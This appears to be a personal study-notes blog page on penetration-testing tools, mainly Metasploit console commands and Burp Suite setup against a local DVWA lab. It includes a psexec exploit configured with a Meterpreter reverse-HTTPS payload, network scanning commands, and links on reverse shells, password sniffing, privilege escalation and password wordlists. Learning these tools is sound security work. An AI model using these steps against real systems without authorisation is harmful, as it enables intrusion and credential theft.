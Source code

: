 ```yaml
---
title      : "Metasploit"
date       : 2019-09-25T12:04:25Z
publishdate: 2019-09-25T12:04:25Z
draft      : false
comments   : true
weight     : 5
revision   : 0
series:
- Security
categories:
- exploit
tags:
- metasploit
---
```


## Metasploit

* a tool for developing and executing exploit code against a remote target machine
* The Metasploit Project includes anti-forensic[^1] and evasion tools
* Source code[^3]
* https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

<!-- more -->

IDS - Intrusion Detection System
: Monitors a network or a stystem for vurnabilities or malicious activities
* `snort`, `suricata`

```
[ metasploit v5.0.46-dev                          ]
[ 1921 exploits - 1075 auxiliary - 330 post       ]
[ 556 payloads - 45 encoders - 10 nops            ]
[ 4 evasion                                       ]
```

```
info explot/windows/smb/psexec
use explot/windows/smb/psexec
show options
set PAYLOAD windows/meterpreter/reverse_https
set LPORT 443
exploit -h
explott -j
run           # to run auxillary scans
sessions
session -i 1  # run any ruby code in context
load          # loads plugins from metasploit

# Searching exploits
search
use
options
set verbose true

```

use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/http/docker_version

use auxiliary/scanner/x11/open_x11
nmap -p 6000 --script=x11-access 192.168.121.220/24

Find out SSH version you are runnugn

```
apt show ssh
ssh -v localhost
ssh -V
```

## Exploits and Scans

* Reverse Shells
  * https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit
* [FTP Sniffing](https://www.offensive-security.com/metasploit-unleashed/password-sniffing/)
* Linux Provilage Escalation[^5]

## Burp Suite

* interception proxy tool
* website Scanning
* Documentation[^4]
* setup local `http://localhost:8888/dvwa/login.php`
* Setup the Porxy
* Intruders
  * Dictionary[^8] and brute force attacks[^7]
* Repeater
  * sending same request with multiple params
* Decoder - crypto
  * SHA, MD5, base64
  * Smart decode, to decode passwords

Intercepting requests on localhost

```
about:config
Type the following into Firefox address bar 'about:config'
Type the following settings 'network.security.ports.banned.override'
Enter your port number '6666'

http://burp/
```

* https://support.portswigger.net/customer/portal/articles/2956765-installing-burp-s-ca-certificate-in-chrome-on-linux
* https://support.portswigger.net/customer/portal/articles/1783087-installing-burp-s-ca-certificate-in-firefox
* https://medium.com/cyberdefenders/burp-suite-webpage-enumeration-and-vulnerability-testing-cfd0b140570d
* https://support.portswigger.net/customer/portal/articles/2326039-the-burp-methodology-
*



### Footnotes

[^1]: https://en.wikipedia.org/wiki/Computer_forensics
[^2]: https://en.wikipedia.org/wiki/Shellcode
[^3]: https://github.com/rapid7/metasploit-framework
[^4]: https://portswigger.net/burp/documentation/desktop/scanning
[^5]: http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
[^6]: https://github.com/jlevy/the-art-of-command-line
[^7]: https://github.com/danielmiessler/SecLists
[^8]: https://www.kaggle.com/wjburns/common-password-list-rockyoutxt